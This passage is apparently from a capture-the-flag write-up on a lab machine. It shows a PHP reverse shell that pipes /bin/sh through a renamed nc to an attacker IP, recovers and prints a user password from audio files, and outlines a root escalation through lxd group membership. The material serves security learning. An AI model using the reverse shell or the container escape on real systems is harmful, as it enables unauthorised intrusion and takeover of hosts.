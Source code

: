 So let's just copy a `nc` to `/dev/shm` to avoid being killed:

```bash
$ cp /bin/nc /dev/shm/gibs
$ chmod 755 /dev/shm/gibs
```

Then grab a php reverse shell from pentestmonkey, run it with our "customized" nc.

```php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/gibs 10.10.16.37 12334 >/tmp/f");?>
```

Successfully got the shell we need.

## Interactive shell

Download the `recov.wav` and `alarmclocks/rick.wav`. Import both of them into `audacity`, and invert one of them. You will hear the normal user password. Don't forget to set repeatedly play the audio.

The password is: `18547936..*`

Just access it via SSH.

# Privilege Escalation

Of course, LinEnum first. 

Due to the normal user belongs to group lxd, and also the lxc is initialized before. 

And there's an ELF with `setuid` permission in `~/app`.

So we have two methods to escalate.

## LXC method

This is the easier one.

We notice xalvas is member of the lxd group. Like with most container technologies (e.g.,), you can run processes with root privileges via LXD. Thus, being member of groups like lxd are more or less equivalent to being root. [Here](https://reboare.github.io/lxd/lxd-escape.html) is a blog post with some details on how to exploit this group membership.

The privesc requires to run a container with elevated privileges and mount the host filesystem inside. Running containers requires an image on the machine. Since we do not have an internet connection on the machine, we have to copy over an image. The outline is as follows:

- Build an image locally and copy image to remote host
- Import image into LXD, create a container and mount host filesystem
- Run a shell inside the container and get flag

### Prepare image

Alpine is a popular Linux distribution to base container images on since it is so small. Unlike other operating systems, which may result in a few hundred megs, Alpine images are often rather small. In this [repository](https://github.com/saghul/lxd-alpine-builder) you can find a simple script to build a container. Clone it, cd into it, then run `./build-alpine -a i686` and a tar file `alpine-v3.7-i686-20180121_1729.tar.gz` will appear.
